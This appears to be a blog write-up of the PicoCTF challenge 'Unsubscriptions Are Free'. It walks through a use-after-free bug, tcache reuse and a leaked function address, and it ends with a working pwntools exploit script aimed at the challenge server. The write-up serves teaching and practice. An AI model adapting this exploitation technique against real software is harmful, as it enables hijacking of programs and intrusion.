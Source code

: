 << [Back to Home](https://papadoxie.github.io)

# Unsubscriptions Are Free (PicoCTF)
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

2 files are provided to us for the challenge and the address
to the server is also provided.

Let's download the files and take a look at the source

## Analysis

Immediately we see a function that prints the flag  

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

Upon further analysis we can see that this function is not being called anywhere but there is another suspicious function

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

Running the binary we can see this prints out the address of the function that will print the flag

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Let's explore further to see how we can use this information  
  
The main function is pretty straightforward as well as the printMenu function

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

<img	src="Analysis4.png"
		alt="Challenge Description"
/>

The processInput function handles the processing of all the user input

<img	src="Analysis5.png"
		alt="Challenge Description"
/>

doProcess just calls the function pointed to by the function pointer passed to it

<img	src="Analysis6.png"
		alt="Challenge Description"
/>

Now let's take a look at the remaining functions

<img	src="Analysis7.png"
		alt="Challenge Description"
/>

There is a pointer being freed here and this function can be called multiple times  
This seems like a bug. Let's test it

<img	src="Analysis8.png"
		alt="Challenge Description"
/>

This looks like a Use After Free bug. Let's try to find out if we can write to this allocation somehow

<img	src="Analysis9.png"
		alt="Challenge Description"
/>

Here we have it. A function that allocates an 8 byte buffer and lets us write to it  
Now what will happen is
- We will free the "user" buffer
- It will go into the tcache
- We will allocate a buffer
- This allocation will come from the tcache and it'll point to the same place "user" was pointing to
- We will write the address of the "hahaexploitgobrr" function to this buffer
- We will free the "user" buffer again to call the function

Let's try this out

## Exploitation

Here's the exploit script

```py
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 48259)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

It worked! We got the flag